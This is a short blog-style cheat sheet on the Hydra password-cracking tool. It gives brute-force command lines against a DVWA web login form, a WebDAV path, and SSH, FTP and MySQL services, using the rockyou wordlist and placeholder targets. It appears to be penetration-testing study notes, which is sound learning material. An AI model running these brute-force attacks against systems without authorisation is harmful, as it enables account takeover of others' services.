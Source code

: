 ```yaml
---
title: Hydra
date: 2022-08-03 21:55:00 +0800
categories: [Tools]
tags: [Hydra, SSH, FTP, MySQL, Web]
pin: false
---
```


![hydra-pass](/assets/img/posts/hydra-contrasenas.webp)

## Web forms

To launch password attacks in forms using `http-post-form` and injecting the variables like `^USER^`. The data in the request can be obtained using Chrome dev tools or `Burpsuite`.

```console
hydra -l admin -P /usr/share/jonh/password.lst 10.0.2.6 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&login=Login:Login failed" -f
```

The options are:

- `-u` username
- `-L` user list
- `-p` password
- `-P` passwordList
- `-f` exit at the first successful result server, where to attack service
- `t` number of threads to run in parallel
- `http-post-form` service.

Another example with `http-get`

```console
hydra -l admin -P pass.txt $TARGET http-get /webdav
```

## SSH

We use the `ssh` service.

```console
hydra -l root -P /usr/share/wordlists/rockyou.txt.gz $TARGET ssh
```

## FTP

```console
hydra -t 4 -l Mike -P /usr/share/wordlists/rockyou.txt -vV $TARGET ftp
```

## MySQL

```console
hydra -t 4 -l root -P /usr/share/wordlists/rockyou.txt $TARGET mysql
```

